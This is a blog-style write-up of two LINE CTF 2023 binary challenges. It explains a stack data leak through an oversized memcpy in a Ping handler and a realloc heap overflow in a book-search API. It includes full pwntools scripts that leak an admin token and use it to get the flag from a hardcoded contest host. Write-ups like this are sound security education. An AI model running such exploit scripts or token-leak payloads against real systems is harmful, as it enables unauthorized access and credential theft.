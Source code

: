 ```yaml
---
layout: post
title: (CTF) LINE CTF 2023 writeup
categories: [Writeup]
tags : [writeup, CTF, LINECTF]
date : 2023-03-30 22:22:00 +0900
toc: true
comments: false
mermaid: false
math: false
---
```


# LINECTF 2023
## Simple Blogger
- This Challenge has two binary client_nix, server_nix 
### Client_nix
Client_nix provides several menus including Ping, login, logout and flag...

### Server_nix
Server_nix processes client input and sends a response to client 

The Vulnerability is in Ping function.

- Background Knowledge
    - the data struct that client send to server is simply below

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: option_num (1)
        2: token (16)
        18: size_bigendian (2)
        - custom data
        20 ~ : Data
        }
        ```

    - the opposite is

        ``` python
        Struct data{
        # offset : name (size)
        0: success_flag (1)
        1: undefined (1)
        2: size (2)
        - custom data
        4 ~ : Data
        }
        ```

If client runs 'Ping', client receives 'Pong'

![1](https://i.imgur.com/sAOHhQc.png)

The detail process step is as follows:
1. Client send data below

    ```
    data = b'\x01\x01'
    data += b'\x00'*0x10
    data += b'\x00\x04'
    data += b'PING'
    ```

2. Server receives data, processes with them

2-1. Generally follow below logic save data to temp buffer
    ![2](https://i.imgur.com/97Vcc4l.png)
    The important element is
    
    ```
    a2+0x18 = size;
    ```

    2-2. And Call Ping Function
    ![3](https://i.imgur.com/MqfeG4e.png)

    (v9 == a2)
    sub_4025DC is Ping function, the 7th argument is size saved at the above logic
    2-3. Memcpy and return
    ![4](https://i.imgur.com/Y58G4a4.png)
    (sub_4013F6 is send response function, a7 == 7th argument )
    In the function, move data to response buffer via memcpy. Because the size using memcpy is a7, then can leak stack data. The admin token loaded from the above sql api exists in stack. 
    
4. Server sends a response to client   

    ```
    data = b'\x01'
    data += b'\x00\x04'
    data += b'PONG'
    ```

4. Client puts 'PONG'

---
Exploit code is below
- token leak

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    r.send(clear_db())
    r.recvuntil("PONG")
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(binascii.hexlify(data[:16]), end="")
    ```
    
- auth and get flag

    ```python
    from pwn import *
    import struct, os, binascii

    HOST = '34.146.54.86'
    PORT = 10007
    TIMEOUT = 3

    def extract_sess(auth_res):
        sess = auth_res[4:]
        return sess

    def clear_db():
        payload = b'\x01\x01'
        payload += b'a'*0x10
        payload += b'\x03\x04'
        payload += b'PING'
        return payload

    def connect(payload):
        r = remote(HOST, PORT)
        r.send(payload)
        data = r.recvrepeat(TIMEOUT)
        r.close()
        return data

    r = remote(HOST, PORT)
    token1 = 0x9649dac3db7f5cd3
    token2 = 0xe950d705b03a91c2
    payload = b'\x01\x06'
    payload += p64(token1,endian="big")
    payload += p64(token2,endian="big")
    payload += b'\x03\x04'
    payload += b'PING'
    r.send(payload)
    data = r.recvrepeat(TIMEOUT)
    r.close()
    print(data)
    ```

![5](https://i.imgur.com/mTkomoj.png)

`LINECTF{2b9598e3eca50122436702e10877cdce}`

---
## books
Binary act as webserver and provide below features

```
/api/book (GET) -> return list of books
/api/book/[0-9]$ (GET) -> return book matched the index
/api/book/search/.* (GET) -> search book
/api/book/search (POST) -> search book by body data
/api/book/[0-9]$ ( PUT, POST ) -> move book to cart
/api/cart (GET) -> return list of cart
/api/cart (DELETE) -> remove book at first 
/api/cart/[0-9]$ (DELETE -> delete book matched the index
```

The Vulnerability in `/api/book/search`

![6](https://i.imgur.com/LYmZDlf.png)

---

![7](https://i.imgur.com/uvGqnfx.png)

First, read bookname from v11(userinput) using sscanf. and make node, adds it to linked_list that head is find_head

![8](https://i.imgur.com/DtSCmTx.png)

And if exist dest, realloc that and append bookname(search query) to that else just strdup
Vulnerability occurs in realloc process. The size used in realloc is destlen*2 +1, but appended data(bookname)'s size can bigger then realloc size. The result can occur heap overflow

---



---
